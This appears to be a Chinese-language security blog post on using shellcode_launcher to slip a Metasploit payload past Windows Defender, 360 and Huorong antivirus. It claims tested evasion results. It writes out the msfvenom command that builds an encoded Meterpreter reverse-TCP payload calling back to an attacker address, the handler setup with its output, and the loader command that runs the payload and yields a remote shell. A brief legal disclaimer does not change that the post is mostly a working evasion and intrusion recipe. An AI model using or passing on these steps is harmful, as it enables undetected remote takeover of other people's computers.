 # 老树开新花之shellcode_launcher免杀Windows Defender


# 1. 说明
本文的所有技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他，请在24小时内删除工具文件！！！
​

工具估计已经失效！！！仅供参考！

工具详细信息：https://mp.weixin.qq.com/s/MHZT_Z2dA4FvzAytfdyuGQ

# update

最新免杀`crowsec_bypass_wdf0119.exe`

原免杀已经不能过wdf

# 2. 免杀效果

2.1 **静态免杀**

| 杀软\免杀效果 | 虚拟机环境：Windows 10 | 虚拟机环境：Windows 7 | 虚拟机环境：Windows server 2019 | 最新测试时间 |
| --- | --- | --- | --- | --- |
| 联网Windows Defender最新版
（关闭自动发送可疑样本） | ✅ | 未测 | ✅ | 2022.01.16 |
| 联网360最新版 | ✅ | ✅ | 未测 | 2022.01.16 |
| 联网火绒最新版 | 未测 | ✅ | ✅ | 2022.01.16 |



2.2 **动态免杀效果（指的是可执行命令）**



| 杀软\免杀效果 | 虚拟机环境：Windows 10 | 虚拟机环境：Windows 7 | 虚拟机环境：Windows server 2019 | 最新测试时间 |
| --- | --- | --- | --- | --- |
| 联网Windows Defender最新版
（关闭自动发送可疑样本） | ✅ | 未测 | ✅ | 2022.01.16 |
| 联网360最新版 | ✅ | ✅ | 未测 | 2022.01.16 |
| 联网火绒最新版 | 未测 | ✅ | ✅ | 2022.01.16 |



# 3. 使用方法

## 3.1 生成shellcode


首先用`Msfvenom`生成`raw`格式的`shellcode`，当前使用了`shikata_ga_na`编码模块：
生成的监听机器为`mac`，ip为`10.211.55.2`，端口：`1234`
```python
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=1234  -f raw -o shellcode.raw
```


![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624029949030-29b5ec73-29f9-4dd5-bbb5-9df94dfc7d5c.png)


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254398164-01112f0c-11e8-4120-b0ec-a2688a793f5f.png)



`攻击机`上开启`msf`进行监听：


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254739820-a3e5c5f4-96fb-4a1e-bf05-ca5490f232f1.png)


```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.211.55.2
LHOST => 10.211.55.2
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.211.55.2:1234
```


然后执行`shellcode_launcher`加载器：
​

`shellcode_launcher.exe -i shellcode.raw`




![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254817035-52bf769c-f47c-4e17-aa8c-f2a3d5522c2b.png)


此时`mac`收到会话，并且可以正常执行命令：


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254854246-23fcff1e-1e3f-479e-9ffe-6c336e9ec58c.png)




## 3.2 **Bypass 火绒**
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642267625868-5d78bf6e-2fc1-4b85-a3e5-608d53f34975.png)


## 3.4 Bypass Win Defender & 360


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642267849841-c2806bda-7b40-4cef-8e0a-dc3bee308355.png)




# 4. 总结
## 4.1 免杀情况

直接整理为图片吧：
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642276998283-fefa0675-7c6c-4d40-9002-0a55f09f6d29.png)






## 4.2 缺点


在本文中，基本没有对作者的源代码进行分析，这里主要是因为篇幅太长，不适合进一步分析，其实可以在作者的基础上延伸一些更加好的方法，本文免杀中存在待优化的问题：

1. 使用`msfvenom`生成的`shellcode`会被一部分杀软标记，这些东西其实深入探究源码之后，去除特征并不算难解决。
1. 在这里看到静态免杀还是比较容易的，但是如果是执行命令等动态操作，基本上都会被优秀的杀软识别，所以在免杀上过动态检测才是研究免杀的关键。



本文在写文章的时候，可能还存在一定的问题，希望各位师傅能够批评指正，不胜感激！
​



